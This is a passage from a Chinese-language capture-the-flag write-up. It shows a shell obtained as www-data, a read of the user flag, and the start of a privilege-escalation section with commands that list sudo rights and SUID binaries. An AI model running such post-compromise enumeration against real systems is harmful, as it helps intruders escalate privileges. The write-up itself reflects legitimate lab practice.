 ```bash
drwxr-xr-x   2 root root       4096 Aug 10  2023 media
drwxr-xr-x   2 root root       4096 Aug 10  2023 mnt
drwxr-xr-x   2 root root       4096 Aug 10  2023 opt
dr-xr-xr-x 265 root root          0 Mar 16 18:01 proc
drwx------   7 root root       4096 Feb 12 16:10 root
drwxr-xr-x  32 root root        900 Mar 16 18:53 run
lrwxrwxrwx   1 root root          8 Aug 10  2023 sbin -> usr/sbin
drwxr-xr-x   6 root root       4096 Aug 10  2023 snap
drwxr-xr-x   2 root root       4096 Aug 10  2023 srv
-rw-------   1 root root 1884291072 Jan 14 20:49 swap.img
dr-xr-xr-x  13 root root          0 Mar 16 18:01 sys
drwxrwxrwt   2 root root       4096 Mar 16 19:57 tmp
drwxr-xr-x  14 root root       4096 Aug 10  2023 usr
drwxr-xr-x  14 root root       4096 Jan 21 14:02 var
$ cd /home
$ ls
andrew
coos
jeff
john
juan
lara
lee
mike
nick
user.txt
$ cat user.txt
```

![image-20240316200307315](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116230.png)

flag我提交了，就不截图了。

## 提权

查看一下基础信息：

```bash
$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper                                                               
sudo: a password is required
$ find /-perm -u=s -type f 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
/snap/snapd/19457/usr/lib/snapd/snap-confine
/snap/snapd/20671/usr/lib/snapd/snap-confine
/snap/core20/1974/usr/bin/chfn
/snap/core20/1974/usr/bin/chsh
/snap/core20/1974/usr/bin/gpasswd
/snap/core20/1974/usr/bin/mount
/snap/core20/1974/usr/bin/newgrp
/snap/core20/1974/usr/bin/passwd
/snap/core20/1974/usr/bin/su
/snap/core20/1974/usr/bin/sudo
/snap/core20/1974/usr/bin/umount
/snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1974/usr/lib/openssh/ssh-keysign
/snap/core20/2105/usr/bin/chfn
/snap/core20/2105/usr/bin/chsh
/snap/core20/2105/usr/bin/gpasswd
/snap/core20/2105/usr/bin/mount
```